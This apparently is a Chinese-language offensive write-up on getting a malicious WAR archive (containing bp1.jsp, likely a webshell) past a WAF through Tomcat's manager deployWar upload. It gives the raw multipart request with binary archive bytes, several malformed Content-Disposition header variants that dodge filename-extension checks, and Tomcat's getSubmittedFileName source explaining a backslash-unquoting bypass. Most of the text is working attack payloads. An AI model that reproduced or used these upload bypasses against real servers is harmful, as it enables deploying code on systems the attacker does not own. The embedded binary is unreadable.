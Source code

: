 ```
Content-Disposition: form-data; name="deployWar"; filename="bypass.war"
Content-Type: application/x-webarchive

PK��{U������������	��META-INF/���PK�����������PK��{U���������������META-INF/MANIFEST.MFMLK-.
K-*ϳR03r.JM,IMu	X)h%&*8%�krr�PKM7D���E���PK��]T���������������bp1.jspmTOkAStdllHWlBZ1KavwMvם4TU<x{[LƓ_D1d{/ۙkr$:Q+Ǹ֙(647L/F*W̼1q!73qk3)2D2ǽe<!d{E^GMvG+.\%q4yC\K5<hD9@8w.WkKlX2|*A9/|Tmp%5jpooNvSNǷO_><ڱ*`uơ1wy7|A\Jf۬pl$]#x5I2Ac)oK"3uQ+%ɄH2^#g@(\jnƇR9 ]bB3
L#g/WʗB-ã';oOQ"P+1'MeԲS
UxRMRMhJ2K2
+۲,Zr6ΗI;a0D9X3v&&'d׌h_;	c+b5	k	fBñv$5T(w?<lÏo`ӡ%td%\sIc6zuh' 	klK)fGtBXLfE
`+"`m2΢[6@spPKZV#o��d��PK���{U�����������	����������������META-INF/��PK���{UM7D���E����������������=���META-INF/MANIFEST.MFPK���]TZV#o��d������������������bp1.jspPK�������������
------WebKitFormBoundaryCYU5Y59MNL5BAit4--
```

WAF可能会检测以下几点

>filename

可能会对filename进行后缀名检查,绕过方法主要由两点:构造畸形的`Content-Disposition`或者构造特殊的filename

- 构造畸形的`Content-Disposition`

```
Content-Disposition: "form-data"; name=deployWar; filename="bypass.war"
Content-Disposition: form-data; name=deployWar; filename="bypass.war"
Content-Disposition: form-data; name=deployWar; filename=bypass.war
Content-Disposition: form-data; name="deployWar"; filename=bypass.war
...
```

- 构造特殊的filename

利用tomcat对filename中存在的`\`的特殊处理进行绕过

`org.apache.catalina.core.ApplicationPart#getSubmittedFileName`

```java
    public String getSubmittedFileName() {
        String fileName = null;
        String cd = this.getHeader("Content-Disposition");
        if (cd != null) {
            String cdl = cd.toLowerCase(Locale.ENGLISH);
            if (cdl.startsWith("form-data") || cdl.startsWith("attachment")) {
                ParameterParser paramParser = new ParameterParser();
                paramParser.setLowerCaseNames(true);
                Map<String, String> params = paramParser.parse(cd, ';');
                if (params.containsKey("filename")) {
                    fileName = (String)params.get("filename");
                    if (fileName != null) {
                        if (fileName.indexOf(92) > -1) {
                            fileName = HttpParser.unquote(fileName.trim());
                        } else {
                            fileName = fileName.trim();
                        }
                    } else {
                        fileName = "";
                    }
                }
            }
        }

        return fileName;
    }
```